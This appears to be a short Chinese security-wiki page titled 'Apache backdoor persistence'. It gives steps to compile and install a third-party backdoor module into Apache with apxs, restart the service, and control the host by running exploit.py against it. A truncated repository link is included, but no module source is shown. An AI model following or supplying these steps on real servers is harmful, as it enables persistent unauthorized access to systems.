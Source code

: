 Apache后门维持
==============

一、漏洞简介
------------

通过运行第三方脚本，实现维持后门的方法

二、漏洞影响
------------

三、复现过程
------------

https://github.com/ianxtianxt/apache-

### 1、上传 mod\_backdoor.c到服务器，并执行命令

    apxs -i -a -c mod_backdoor.c && service apache2 restart

![](./.resource/Apache后门维持/media/rId25.jpg)

### 2、控制端执行方法

    python exploit.py 127.0.0.1 80

image
